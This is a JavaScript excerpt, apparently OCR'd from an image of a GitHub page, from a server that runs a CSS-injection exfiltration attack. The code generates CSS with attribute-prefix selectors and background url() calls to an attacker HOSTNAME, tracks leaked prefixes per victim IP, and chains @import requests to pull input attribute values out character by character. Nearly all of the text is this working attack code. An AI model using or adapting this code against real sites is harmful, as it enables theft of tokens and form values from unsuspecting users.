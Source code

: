 ```js

    if (value.length > MAX_VALUE) {
        return;
    }

    if (!ELEMENTS.includes(tag)) {
        return;
    }

    if (!ATTRIBUTES[tag].includes(attribute)) {
        return;
    }

    if (!hasToken(tokens, { tag, attribute, value })) {
        tokens.push({ tag, attribute, value });
        session.get(ip).set('foundToken', true);
    }
});

const genResponse = (request, response, elementNumber) => {
    const ip = getIP(request);
    if (!hasSession(ip)) {
        response.end();
        return;
    }

    const n = session.get(ip).get('n');
    const prefixes = session.get(ip).get('prefixes');
    const tokens = session.get(ip).get('tokens');
    let css = '@import url(' + HOSTNAME + '/next?' + Date.now() + ');input{display: block !important;}';
    let properties = [];
    for (let element of ELEMENTS) {
        for (let attribute of ATTRIBUTES[element]) {
            const variablePrefix = '--' + getPrefix(element, attribute, elementNumber) + '-' + n;
            const prefixKey = getPrefix(element, attribute, elementNumber);
            if (!prefixes.has(prefixKey)) {
                prefixes.set(prefixKey, '');
            }
            const prefix = prefixes.get(prefixKey);
            css += CHARS.map(e => (element + '[' + attribute + '^="' + escapeCSS(prefix + e) + '"]' + generateNotSelectors(tokens, element, attribute) +  '{' + variablePrefix + 's:url(' + HOSTNAME + '/l?e=' + (elementNumber) + '&n=' + n + '&p_' + element[0] + attribute[0] + elementNumber + '=' + encodeURIComponent(prefix + e) + ');}')).join('');
            css += element + '[' + attribute + '="' + escapeCSS(prefix) + '"] {' + variablePrefix + 'f:url(' + HOSTNAME + '/c?t=' + element + '&a=' + attribute + '&e=' + elementNumber + '&v=' + encodeURIComponent(prefix) + ')!important;}';
        }
    }
    if (n === 0 && elementNumber === 0) {
        for (let element of ELEMENTS) {
            for (let attribute of ATTRIBUTES[element]) {
                for (let i = 0; i < MAX_ELEMENTS; i++) {
                    for (let j = 0; j < MAX_VALUE; j++) {
                        const variablePrefix = '--' + getPrefix(element, attribute, i) + '-' + j;
                        properties.push('var(' + variablePrefix + 's,none)');
                        properties.push('var(' + variablePrefix + 'f,none)');
                    }
                }
            }
        }
        css += `input{background:${properties.join(',')};}`;
    }
```